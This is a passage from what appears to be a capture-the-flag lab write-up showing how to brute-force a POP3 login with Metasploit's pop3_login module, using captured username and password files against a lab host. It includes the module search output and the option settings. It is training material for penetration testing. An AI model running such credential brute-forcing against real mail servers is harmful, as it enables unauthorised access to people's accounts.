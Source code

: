 ### No answer needed

###

### Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?

Let's create the database and run `msfconsole`.

```
$ sudo msfdb run
```

We can now search for modules related to Pop3.

```
msf6 > search pop3

Matching Modules
================

   #  Name                                          Disclosure Date  Rank     Check  Description
   -  ----                                          ---------------  ----     -----  -----------
   0  auxiliary/server/capture/pop3                                  normal   No     Authentication Capture: POP3
   1  exploit/linux/pop3/cyrus_pop3d_popsubfolders  2006-05-21       normal   No     Cyrus IMAPD pop3d popsubfolders USER Buffer Overflow
   2  auxiliary/scanner/pop3/pop3_version                            normal   No     POP3 Banner Grabber
   3  auxiliary/scanner/pop3/pop3_login                              normal   No     POP3 Login Utility
   4  exploit/windows/pop3/seattlelab_pass          2003-05-07       great    No     Seattle Lab Mail 5.5 POP3 Buffer Overflow
   5  post/windows/gather/credentials/outlook                        normal   No     Windows Gather Microsoft Outlook Saved Password Extraction
   6  exploit/windows/smtp/ypops_overflow1          2004-09-27       average  Yes    YPOPS 0.6 Buffer Overflow
```

We will be using the fourth module. Let's select it using the following command:

```
msf6 > use 3
msf6 auxiliary(scanner/pop3/pop3_login) > 
```

Let's set up the module.

```
msf6 auxiliary(scanner/pop3/pop3_login) > set rhosts 10.10.251.22
rhosts => 10.10.251.22
msf6 auxiliary(scanner/pop3/pop3_login) > set user_file usernames.txt
user_file => usernames.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set pass_file passwords.txt
pass_file => passwords.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set verbose false
verbose => false
```
